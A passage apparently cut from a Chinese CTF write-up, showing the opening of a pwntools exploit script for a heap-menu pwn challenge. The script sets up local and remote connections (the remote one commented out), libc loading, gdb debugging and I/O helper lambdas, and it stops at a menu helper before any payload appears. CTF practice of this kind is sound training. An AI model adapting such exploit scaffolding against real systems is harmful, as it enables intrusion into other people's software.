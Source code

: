 [![](assets/1701606938-61ab524fc12fed19dbc785263dcd25d8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231014201555-6cb33268-6a8b-1.png)

完整 exp：

```bash
from pwn import *
#from LibcSearcher import *

context(log_level='debug',arch='amd64', os='linux')
pwnfile = "./pwn"
#io = remote("challenge-62baade3e67b5724.sandbox.ctfhub.com", 23306)
io = process(pwnfile)
elf = ELF(pwnfile)
#libc = ELF("./libc-2.23.so")
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
def dbg():
    gdb.attach(io)
    pause()

s       = lambda data               :io.send(data)
sa      = lambda delim,data         :io.sendafter(delim, data)
sl      = lambda data               :io.sendline(data)
sla     = lambda delim,data         :io.sendlineafter(delim, data)
r       = lambda num=4096           :io.recv(num)
ru      = lambda delims         :io.recvuntil(delims)
itr     = lambda                    :io.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
lg      = lambda address,data       :log.success('%s: '%(address)+hex(data))


def add(size,data):
    ru(b"Input your choice >> \n")
```